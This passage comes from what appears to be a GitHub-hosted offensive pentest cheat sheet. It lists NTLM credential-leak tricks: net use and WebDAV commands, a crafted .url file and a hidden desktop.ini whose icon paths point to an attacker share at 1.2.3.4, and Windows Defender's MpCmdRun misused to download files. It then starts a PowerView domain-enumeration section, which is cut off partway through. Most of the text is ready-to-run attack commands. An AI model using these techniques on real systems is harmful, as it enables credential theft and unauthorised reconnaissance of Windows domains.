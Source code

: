 * net use \\\\domain.site@80\\uri_folder\\index.html
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

###### Create .url file to leak using “ICO” request to file share
Create a new TXT file and paste the following:<br/>
[InternetShortcut]  <br/>
URL=http://www.WeLoveResponder.com <br/>
IconIndex=0  <br/>
IconFile\=\\\\1.2.3.4\\L3\\3T.ico
Rename the file from .txt to .url

###### Create desktop.ini file to leak credentials using a folder
mkdir Folder <br/>
attrib +s Folder <br/>
cd Folder <br/>
echo [.ShellClassInfo] > desktop.ini <br/>
echo IconResource\=\\\\1.2.3.4\\aa >> desktop.ini <br/>
attrib +s +h desktop.ini

###### Windows Defender MpCmdRun
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -Scan  -ScanType 3 -File \\\\Server.domain\\file.txt
"c:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -url https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe -path \\\\Server.domain\\

More on this [Github](https://github.com/Gl3bGl4z/All_NTLM_leak)

### Post Auth

#### Domain Info

##### Powerview
Get Current Domain:
```
Get-NetDomain
```
Enum Other Domains:
```
Get-NetDomain -Domain <domain_name>
```
Get Domain SID:
```
Get-DomainSID
```
Get Domain Policy:
```
Get-DomainPolicy
```
Get Domain Controlers:
```
Get-NetDomainController
Get-NetDomainController -Domain <domain_name>
```
Enumerate Domain Users:
```
Get-NetUser
Get-NetUser -SamAccountName <user> 
Get-NetUser | select cn

# Enumerate user logged on a machine
Get-NetLoggedon
Get-NetLoggedon -ComputerName <computer_name>

# Enumerate Session Information for a machine
```